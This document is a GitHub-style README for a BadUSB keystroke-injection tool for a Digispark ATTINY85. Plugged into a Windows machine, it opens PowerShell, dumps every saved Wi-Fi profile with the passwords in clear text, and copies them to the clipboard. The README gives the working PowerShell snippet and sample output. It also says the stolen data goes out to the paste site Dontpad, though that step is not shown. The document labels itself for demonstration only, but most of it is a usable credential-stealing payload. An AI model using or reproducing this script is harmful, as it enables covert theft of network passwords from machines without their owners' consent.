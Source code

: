 # Wifi Profile Grabber
## Description
This is a simple *keystroke injection* script designed for grabbing user's wifi credentials. 
## Specifications
* **Hardware** = Digispark ATTINY85
* **Platform** = Windows (PowerShell)
* **Implementation** = Arduino script
## Implementation
Script uses standard delay and keystoke commands. Inserting the bad usb will open PowerShell window. Credentials are obtained using the following simplified script:
```
$a = (netsh wlan show profiles) | Select-String ' :(.*)' // store all found profiles
$count = 1
$out = while($a.matches.groups[$count].value) { netsh wlan show profiles $a.matches.groups[$count].value.Trim() key=clear; $count+=2}
write-output $out | clip // copy to clipboard
```
Can be replaced with [Hak5's one-liner](https://shop.hak5.org/blogs/payloads).
## Output
Script will grab data of all stored wifi credentials from attacked machine. The following example showcases one profile:
```
Profile K. on interface Wi-Fi: 
======================================================================= 

Applied: All User Profile    

Profile information 
------------------- 
    Version                : 1
    Type                   : Wireless LAN
    Name                   : K.
    Control options        : 
        Connection mode    : Connect automatically
        Network broadcast  : Connect only if this network is broadcasting
        AutoSwitch         : Do not switch to other networks
        MAC Randomization  : Disabled

Connectivity settings 
--------------------- 
    Number of SSIDs        : 1
    SSID name              : "K."
    Network type           : Infrastructure
    Radio type             : [ Any Radio Type ]
    Vendor extension          : Not present

Security settings 
----------------- 
    Authentication         : WPA2-Personal
    Cipher                 : CCMP
    Authentication         : WPA2-Personal
    Cipher                 : GCMP
    Security key           : Present
    Key Content            : <PASSWORD>

Cost settings 
------------- 
    Cost                   : Fixed
    Congested              : No
    Approaching Data Limit : No
    Over Data Limit        : No
    Roaming                : No
    Cost Source            : Operator

```
## Limitations
* **Exfiltrating data**: implementation recovers data from attacked machine using [Dontpad](https://dontpad.com/) (assuming internet connection).
* **Delay**: differences between tested machines showed that applied delay between keystrokes may be too low resulting in skipping script steps.
* **Demonstration purposes only**: commands executed are visible on attacked machine.
